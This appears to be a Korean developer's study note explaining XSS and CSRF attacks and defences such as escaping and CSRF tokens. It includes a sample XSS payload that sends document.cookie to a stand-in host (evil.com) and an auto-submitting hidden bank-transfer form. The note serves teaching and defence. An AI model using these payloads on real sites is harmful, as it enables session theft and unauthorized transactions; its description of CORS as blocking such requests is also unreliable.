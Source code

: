 ```yaml
---
title: "XSS / CSRF ( 크로스 사이트 스크립팅 )"
date: 2023-07-10
category: others
---
```


# XSS / CSRF ( 크로스 사이트 스크립팅 )

![](/storage/2023071023051959065.jpg)

### XSS 란?

1. 공격자가 게시글등이나 메일에 악성코드를 실행하는 script태그등을 적어서 사용자가 클릭할수있게한다.
2. 그 악성 코드가 포함된 글을 사용자가 열게 되면 해당 script내에 있는 내용을 실행한다
3. 만약 해당 악성 코드 내에서 로그인한 사용자의 개인 정보가 담긴 쿠키(로그인 가능한 세션정보)등을 공격자의 서버로 보내는 코드가 포함되어있는경우 공격자의 서버로 해당 정보를 보내게 되고 개인정보가 탈취된다 ( **XSS : 쿠키탈취**)

### CSRF란?

1. 사용자가 구글이나 은행등의 서비스에 로그인된 상태이다
2. 사용자가 메일이나 불법사이트등을 클릭한다
3. 해당 사용자는 공격자가 적어놓은 악의적인 요청을 실행한다

   요청은 <form>등의 백그라운드에서 실행되는 형태이기때문에 사용자가 눈치채지 못한다

   악의적인 요청의 내용은 이와같다. 사용자가 구글이나 은행등 유명 서비스에 접속한것을 확인한다

   그러면 악의적인 요청을 실행한다. 은행의 계좌이체나 불법게시물 등록등을 실행한다
4. 사용자가 로그인된 정상적인 상태이기때문에 위의 악의적인 요청을 서버에서 실행한다

   (**CSRF**:공격자가 만든 악의적인 요청을 계속 서버에 요청)

### CSRF와 XSS의 차이

* XSS는 **악의적인 스크립트 코드를 게시물등에 심어서** **쿠키를 공격자에게 보내도록하여 개인정보를 탈취**하여 공격자가 이를 악용

  + 상황: 사용자가 웹사이트에 댓글을 남길 수 있는 시스템이 있고, 이 댓글 시스템이 사용자 입력을 적절히 검증하거나 이스케이프하지 않는다고 가정합니다.

  ```
  // 공격자가 남긴글
  <script>document.location='http://evil.com/steal.php?cookie='+document.cookie;</script>
  ```
* CSRF는 공격자가 **악의적인 요청을 실행하는 링크나 사이트를 사용자가 클릭하도록 하여 사용자가 악의적인 요청을 보내게 만들어**버림

  + 상황: 사용자가 로그인된 상태에서, 공격자가 만든 악의적인 웹페이지를 방문하게 됩니다. 이 웹페이지는 사용자의 은행 계좌에서 송금을 실행하는 폼을 자동으로 제출합니다.

  ```
  <html>
    <body>
      <h1>이 페이지는 악의적인 페이지입니다!</h1>
      <form action="http://your-bank.com/transfer" method="POST" id="evilForm">
        <input type="hidden" name="account" value="hacker's account number" />
        <input type="hidden" name="amount" value="1000" />
      </form>
      <script>
        document.getElementById('evilForm').submit();
      </script>
    </body>
  </html>
  ```

### 막기위한 방법

1. 최신 브라우저등은 CORS등을 지원하고있다. CORS는 해당 스크립트에서 현재 도메인과 다른곳에 요청을 보내지 못하도록 제한하는것이다

   그러므로 브라우저 업데이트를 하거나 구식 IE등은 사용하지않아야한다
2. Character escaping기능을 사용한다. Character escaping란 <>등의 태그를 입력시 "&lt;sciprt&gt;alert(1)&lt;sciprt&gt;"등으로 태그를 변환해준다

   현재 사용중인 TOAST UI Editor등의 WYSIWYG 에디터툴은 글을 작성시 태그가 입력되어있을시 자동으로 위와같이 변환해준다 (**XSS방지**)
3. CSRF 토큰 검증을 사용한다 (라라벨의 경우 블레이드 템플릿의 @csrf 지시자) (**CSRF방지**)

   서버의 세션에서 임의의 CSRF토큰을 만들어서 요청한 페이지의 hidden타입의 input태그에 저장한다.

   그리고 이후 유저한테서 요청이 올 경우 서버에서 발행한 CSRF토큰과 요청한 페이지의 CSRF토큰이 일치하는지 확인한다

   **→추가설명**

   즉 공격자의 form 요청에는 매번 바뀌는 CSRF토큰은 없기때문에 실행이 안됨

---

참조

https://www.youtube.com/watch?v=LfI6TAchgT4

https://junhyunny.github.io/information/security/spring-boot/spring-security/cross-site-reqeust-forgery/
